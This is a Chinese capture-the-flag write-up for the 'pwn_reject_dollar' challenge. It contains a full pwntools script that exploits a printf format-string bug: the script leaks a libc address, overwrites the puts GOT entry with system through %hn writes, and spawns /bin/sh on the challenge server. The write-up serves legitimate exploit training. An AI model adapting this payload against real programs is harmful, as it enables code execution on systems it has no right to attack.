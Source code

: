 ## pwn_reject_dollar

怎么全是二进制？
先用圣母进行一个逆向
![](./pwn_reject_dollar_a.png)

注意到可以注入攻击printf函数，但需要想办法绕过排序函数
![](./pwn_reject_dollar_c.png)

![](./pwn_reject_dollar_d.png)

然后就是普通的printf函数注入了
```py
from pwn import *

p=remote('isg.idss-cn.com',20822)
# p = gdb.debug("./pwn","b *0x4015ED")
libc = ELF("./libc.so.6")
elf = ELF("./pwn")

def read(content):
    p.sendlineafter("e > ","1")
    p.sendlineafter("ge > ",content)

def printf():
    p.sendlineafter("e > ", "2")

def puts():
    p.sendlineafter("e > ", "3")

def pwn():
    read("\n"+"%d"*42+".%p.")
    printf()
    p.recvuntil(".")
    libc.address = int(p.recvuntil(".")[:-1],16)-0x29d90
    system = libc.symbols['system']
    print('libc:',hex(libc.address))
    payload = b'\n'+b'%c'*0x20+b'%'+str((system&0xffff)-0x21).encode()+b'c%hn%'+str(((system>>16)&0xffff)-(system&0xffff)).encode()+b'c%hn'
    payload = payload.ljust((0x22-8)*8)+p64(elf.got['puts'])
    payload = payload.ljust((0x24-8)*8)+p64(elf.got['puts']+2)
    read(payload)
    printf()
    read("/bin/sh\x00")
    puts()
    p.interactive()

pwn()
```

运行结果截图
![](./pwn_reject_dollar_b.png)